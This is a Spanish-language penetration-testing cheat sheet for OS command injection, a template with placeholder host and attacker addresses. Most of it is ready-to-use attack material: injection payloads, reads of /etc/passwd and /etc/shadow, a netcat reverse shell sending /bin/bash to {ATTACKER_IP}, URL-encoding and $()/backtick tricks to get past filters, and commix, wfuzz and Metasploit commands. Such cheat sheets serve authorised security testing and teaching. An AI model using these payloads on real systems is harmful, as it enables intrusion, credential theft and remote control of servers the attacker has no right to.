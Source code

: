 # CheatSheet: OS Command Injection

## Fecha: 22/01/2025
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Identificar y explotar vulnerabilidades de inyección de comandos del sistema operativo 
para ejecutar comandos arbitrarios en el servidor objetivo y comprometer su seguridad.

---
## Herramientas
1. Burp Suite
2. OWASP ZAP
3. Metasploit

---
## Procedimiento y comandos

1. **Identificar campos vulnerables**:
   - Probar entradas que interactúen con el sistema:
     ```
     http://{HOST}/?cmd=ls
     ```

2. **Probar vectores comunes**:
   - Concatenación de comandos:
     ```
     ; ls
     && whoami
     | uname -a
     ```
   - Comandos con redirección:
     ```
     | cat /etc/passwd
     ```

3. **Automatización de pruebas**:
   - Usar herramientas para identificar parámetros vulnerables:
     ```bash
     wfuzz -c -z file,/path/to/wordlist.txt "http://{HOST}/?cmd=FUZZ"
     ```

4. **Escalación de impacto**:
   - Leer archivos sensibles:
     ```
     cat /etc/shadow
     ```
   - Conexión inversa:
     ```bash
     nc -e /bin/bash {ATTACKER_IP} {PORT}
     ```

---
## Troubleshooting
1. **Filtros que bloquean caracteres especiales**:
   - Usar codificación para evadirlos:
     ```
     %26%26 whoami
     %3B ls
     ```
   - Probar envoltorios alternativos para comandos:
     ```bash
     $(whoami)
     `uname -a`
     ```

2. **El comando no se ejecuta**:
   - Comprobar si los resultados son visibles en la respuesta del servidor.
   - Analizar con herramientas proxy como Burp Suite para observar el comportamiento del servidor.

3. **Protecciones del sistema**:
   - Si se usan funciones como escapeshellcmd, buscar vectores alternativos.
   - Examinar las respuestas en busca de indicadores de sanitización insuficiente.

---
## Herramientas Alternativas
- [ ] **Commix**: Automatización para detección de inyección de comandos.
  ```bash
  commix --url="http://{HOST}/?cmd=exploit"
  ```
- [ ] **Metasploit**: Módulos específicos para OS command injection.
  ```bash
  use exploit/unix/webapp/command_injection
  ```
- [ ] **Wfuzz**: Identificación de parámetros vulnerables.
  ```bash
  wfuzz -c -z file,/path/to/wordlist.txt "http://{HOST}/?cmd=FUZZ"
  ```



